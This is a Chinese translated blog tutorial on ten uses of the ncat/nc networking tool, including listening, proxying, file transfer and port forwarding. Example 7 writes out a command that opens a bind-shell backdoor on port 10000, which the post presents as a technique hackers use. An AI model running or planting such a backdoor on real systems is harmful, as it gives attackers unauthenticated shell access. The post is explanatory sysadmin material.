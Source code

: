 ```yaml
---
layout: post
title:	"10 个例子教你学会 ncat (nc) 命令"
date:	2017-12-31 08:01:00 +0800 
categories:	技术 linuxcn 
tags:	[linuxcn,nc,ncat]
---
```



![](/Asserts/Images//attachment/album/201712/30/001853qeiznzihgh3zghqz.jpg)


`ncat` 或者说 `nc` 是一款功能类似 `cat` 的工具，但是是用于网络的。它是一款拥有多种功能的 CLI 工具，可以用来在网络上读、写以及重定向数据。 它被设计成可以被脚本或其他程序调用的可靠的后端工具。同时由于它能创建任意所需的连接，因此也是一个很好的网络调试工具。


`ncat`/`nc` 既是一个端口扫描工具，也是一款安全工具，还能是一款监测工具，甚至可以做为一个简单的 TCP 代理。 由于有这么多的功能，它被誉为是网络界的瑞士军刀。 这是每个系统管理员都应该知道并且掌握它。


在大多数 Debian 发行版中，`nc` 是默认可用的，它会在安装系统的过程中自动被安装。 但是在 CentOS 7 / RHEL 7 的最小化安装中，`nc` 并不会默认被安装。 你需要用下列命令手工安装。



```
[root@linuxtechi ~]# yum install nmap-ncat -y

```

系统管理员可以用它来审计系统安全，用它来找出开放的端口然后保护这些端口。 管理员还能用它作为客户端来审计 Web 服务器、telnet 服务器、邮件服务器等， 通过 `nc` 我们可以控制发送的每个字符，也可以查看对方的回应。


我们还可以用它捕获客户端发送的数据以此来了解这些客户端是做什么的。


在本文中，我们会通过 10 个例子来学习如何使用 `nc` 命令。


### 例子： 1) 监听入站连接


通过 `-l` 选项，`ncat` 可以进入监听模式，使我们可以在指定端口监听入站连接。 完整的命令是这样的：



```
$ ncat -l port_number

```

比如，



```
$ ncat -l 8080

```

服务器就会开始在 8080 端口监听入站连接。


### 例子： 2) 连接远程系统


使用下面命令可以用 `nc` 来连接远程系统，



```
$ ncat IP_address port_number

```

让我们来看个例子，



```
$ ncat 192.168.1.100 80

```

这会创建一个连接，连接到 IP 为 192.168.1.100 的服务器上的 80 端口，然后我们就可以向服务器发送指令了。 比如我们可以输入下面内容来获取完整的网页内容



```
GET / HTTP/1.1

```

或者获取页面名称，



```
GET / HTTP/1.1

```

或者我们可以通过以下方式获得操作系统指纹标识，



```
HEAD / HTTP/1.1

```

这会告诉我们使用的是什么软件来运行这个 web 服务器的。


### 例子： 3) 连接 UDP 端口


默认情况下，`nc` 创建连接时只会连接 TCP 端口。 不过我们可以使用 `-u` 选项来连接到 UDP 端口，



```
$ ncat -l -u 1234

```

现在我们的系统会开始监听 UDP 的 1234 端口，我们可以使用下面的 `netstat` 命令来验证这一点，



```
$ netstat -tunlp | grep 1234
udp           0          0 0.0.0.0:1234                 0.0.0.0:*               17341/nc
udp6          0          0 :::1234                      :::*                    17341/nc

```

假设我们想发送或者说测试某个远程主机 UDP 端口的连通性，我们可以使用下面命令，



```
$ ncat -v -u {host-ip} {udp-port}

```

比如：



```
[root@localhost ~]# ncat -v -u 192.168.105.150 53
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53。

```

### 例子： 4) 将 `nc` 作为聊天工具


`nc` 也可以作为聊天工具来用，我们可以配置服务器监听某个端口，然后从远程主机上连接到服务器的这个端口，就可以开始发送消息了。 在服务器这端运行：



```
$ ncat -l 8080

```

在远程客户端主机上运行：



```
$ ncat 192.168.1.100 8080

```

之后开始发送消息，这些消息会在服务器终端上显示出来。


### 例子： 5) 将 `nc` 作为代理


`nc` 也可以用来做代理。比如下面这个例子，



```
$ ncat -l 8080 | ncat 192.168.1.200 80

```

所有发往我们服务器 8080 端口的连接都会自动转发到 192.168.1.200 上的 80 端口。 不过由于我们使用了管道，数据只能被单向传输。 要同时能够接受返回的数据，我们需要创建一个双向管道。 使用下面命令可以做到这点:



```
$ mkfifo 2way
$ ncat -l 8080 0<2way | ncat 192.168.1.200 80 1>2way

```

现在你可以通过 `nc` 代理来收发数据了。


### 例子： 6) 使用 `nc` 拷贝文件


`nc` 还能用来在系统间拷贝文件，虽然这么做并不推荐，因为绝大多数系统默认都安装了 `ssh`/`scp`。 不过如果你恰好遇见个没有 `ssh`/`scp` 的系统的话， 你可以用 `nc` 来作最后的努力。


在要接受数据的机器上启动 `nc` 并让它进入监听模式：



```
$ ncat -l  8080 > file.txt

```

现在去要被拷贝数据的机器上运行下面命令：



```
$ ncat 192.168.1.100 8080 --send-only < data.txt

```

这里，`data.txt` 是要发送的文件。 `-–send-only` 选项会在文件拷贝完后立即关闭连接。 如果不加该选项， 我们需要手工按下 `ctrl+c` 来关闭连接。


我们也可以用这种方法拷贝整个磁盘分区，不过请一定要小心。


### 例子： 7) 通过 `nc` 创建后门


`nc` 命令还可以用来在系统中创建后门，并且这种技术也确实被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。 创建后门的命令为：



```
$ ncat -l 10000 -e /bin/bash

```

`-e` 标志将一个 bash 与端口 10000 相连。现在客户端只要连接到服务器上的 10000 端口就能通过 bash 获取我们系统的完整访问权限：



```
$ ncat 192.168.1.100 10000

```

### 例子： 8) 通过 `nc` 进行端口转发


我们通过选项 `-c` 来用 `nc` 进行端口转发，实现端口转发的语法为：



```
$ ncat -u -l  80 -c  'ncat -u -l 8080'

```

这样，所有连接到 80 端口的连接都会转发到 8080 端口。


### 例子： 9) 设置连接超时


`nc` 的监听模式会一直运行，直到手工终止。 不过我们可以通过选项 `-w` 设置超时时间:



```
$ ncat -w 10 192.168.1.100 8080

```

这回导致连接 10 秒后终止，不过这个选项只能用于客户端而不是服务端。


### 例子： 10) 使用 `-k` 选项强制 `nc` 待命


当客户端从服务端断开连接后，过一段时间服务端也会停止监听。 但通过选项 `-k` 我们可以强制服务器保持连接并继续监听端口。 命令如下：



```
$ ncat -l -k 8080

```

现在即使来自客户端的连接断了也依然会处于待命状态。


自此我们的教程就完了，如有疑问，请在下方留言。




---


via: <https://www.linuxtechi.com/nc-ncat-command-examples-linux-systems/>


作者：[Pradeep Kumar](https://www.linuxtechi.com/author/pradeep/) 译者：[lujun9972](https://github.com/lujun9972) 校对：[wxy](https://github.com/wxy)


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创编译，[Linux中国](https://linux.cn/) 荣誉推出
